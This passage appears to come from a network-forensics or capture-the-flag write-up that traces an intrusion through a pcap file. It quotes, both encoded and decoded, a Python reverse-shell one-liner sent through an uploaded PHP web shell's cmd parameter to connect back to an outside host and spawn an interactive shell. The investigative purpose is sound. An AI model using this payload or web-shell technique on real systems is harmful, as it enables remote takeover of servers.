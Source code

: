 Back to the original pcap file and follow packet #16201, which has a GET request with uploads/dbjuctions.php. 
<br>

You will find: /uploads/dbfunctions.php?cmd=python%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.251.96.4%22,4422));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27 HTTP/1.1 
<br>

Which decoded to: /uploads/dbfunctions.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.251.96.4",4422));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'HTTP/1.1 
<br>
Looks like the attacker is using python to make a connection to 10.251.96.4 on port 4422

<img src="images/34.png" width="900">
<img src="images/35.png" width="900">
<br>

If you get back to the original pcap and right below packet #16201. You can find 3-way handshakes to 10.251.96.4 on packet #16203, 16204, 16205. Follow packet #16204 on "TCP stream" We can see that the attacker has a successful webshell connection to this web server. You can also see which path he took in the directory too travel around.

<img src="images/36.png" width="900">